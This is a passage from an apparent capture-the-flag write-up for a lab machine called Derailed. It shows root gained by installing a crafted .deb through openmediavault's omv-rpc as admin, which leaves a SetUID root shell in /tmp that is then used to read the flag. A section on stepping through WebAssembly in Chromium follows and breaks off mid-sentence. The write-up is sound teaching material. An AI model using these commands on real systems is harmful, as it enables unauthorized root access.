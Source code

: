 I'll invoke the RPC, and it returns a strange path in `/tmp`:



    openmediavault-webgui@derailed:/dev/shm$ /usr/sbin/omv-rpc -u admin apt install '{ "packages": ["/dev/shm/0xdf.deb"] }'
    "\/tmp\/bgstatusWWgLhR"



But still, `/tmp/0xdf2` is there and SetUID:



    openmediavault-webgui@derailed:/dev/shm$ ls -l /tmp/0xdf2 
    -rwsrwsrwx 1 root root 1234376 Jul 20 17:12 /tmp/0xdf2
    openmediavault-webgui@derailed:/dev/shm$ /tmp/0xdf2 -p
    0xdf2-5.1# id
    uid=999(openmediavault-webgui) gid=996(openmediavault-webgui) euid=0(root) egid=0(root) groups=0(root),996(openmediavault-webgui),998(openmediavault-engined),999(openmediavault-config)



Regardless of how I got root, I can read the flag:



    0xdf2-5.1# cat /root/root.txt
    38939b28************************



## Beyond Root - Debugging WebAssembly

### Video

I'll explore WASM debugging in [this
video](https://www.youtube.com/watch?v=BTLLPnW4t5s):


# ایک خرابی پیش آ گئی۔ {#ایک-خرابی-پیش-آ-گئی .message}

[اس ویڈیو کو www.youtube.com پر دیکھنے کی کوشش
کریں](https://www.youtube.com/watch?v=BTLLPnW4t5s){target="_blank"} یا
اگر آپ کے براؤزر میں JavaScript غیر فعال ہے تو اسے فعال کریں۔

### Setup

I'm going to be using Chromium, as had a really hard time getting
Firefox to step into WASM.

I've already found [above](#editor-loader) where the page's JavaScript
is making a call to `ccall` for the `display` function, passing in two
strings, "created" and "author". I'll place a break there (around line
118 of the page), and run to it.

### Deeper Into the JavaScript

Stepping into `ccall` actually leads into `display.js`, which is
generated by Escripten when the site is built. `ccall` is responsible
for converting the objects like strings into pointers in memory that the
C function can work with. Looking down towards the bottom of the
function at line 774 there's this line:
